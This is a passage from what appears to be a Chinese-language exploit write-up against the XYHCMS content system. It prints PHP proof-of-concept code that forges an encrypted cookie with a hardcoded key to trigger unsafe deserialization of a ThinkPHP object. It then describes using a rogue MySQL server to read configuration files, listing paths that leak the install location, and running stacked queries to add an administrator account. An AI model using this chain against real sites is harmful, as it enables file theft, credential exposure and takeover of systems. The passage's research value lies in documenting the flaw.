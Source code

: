 ```
`}`

public function __destruct() `{`
$this -&gt; crypt_key = null;
`}`
`}`

function get_cookie($name, $key = '') `{`
$key = '7q6Gw97sh';
$key = md5($key);
$sc = new \Common\Lib\SysCrypt($key);
$value = $sc-&gt;php_decrypt($name);
return unserialize($value);
`}`

function set_cookie($args, $key = '') `{`
$key = '7q6Gw97sh';
$value = serialize($args);
$key = md5($key);
$sc = new \Common\Lib\SysCrypt($key);
$value = $sc-&gt;php_encrypt($value);
return $value;
`}`

$b = new \Think\Image\Driver\Imagick();
$a = set_cookie($b,'');
echo str_replace('+','%2B',$a);
```

[![](https://p2.ssl.qhimg.com/t015ffd38c54fa383f3.png)](https://p2.ssl.qhimg.com/t015ffd38c54fa383f3.png)

成功执行SQL语句，但很显然，这几乎是无危害的，因为你得知道别人数据库账户密码，或者填自己服务器的账户密码。文章中提到了利用恶意mysql服务器读取文件。

[https://github.com/Gifts/Rogue-MySql-Server](https://github.com/Gifts/Rogue-MySql-Server)

文件读取需要绝对路径，可以猜测，也可以访问如下文件，php报错可能会爆出。

/App/Api/Conf/config.php

/App/Api/Controller/ApiCommonController.class.php

/App/Common/LibTag/Other.class.php

/App/Common/Model/ArcViewModel.class.php

得到绝对路径后，修改python脚本增加filelist为D:\\xampp\\htdocs\\xyhcms\\App\\Common\\Conf\\db.php，修改POC数据库连接地址，成功读取配置文件。

[![](https://p4.ssl.qhimg.com/t01a82c1583b07ba47b.png)](https://p4.ssl.qhimg.com/t01a82c1583b07ba47b.png)

读取到了本地的数据库之后，POC更换数据库地址，PDO默认支持堆叠，所以可以直接操作数据库。这里简单一点可以新增一个管理员上去。

/xyhai.php?s=/Login/index
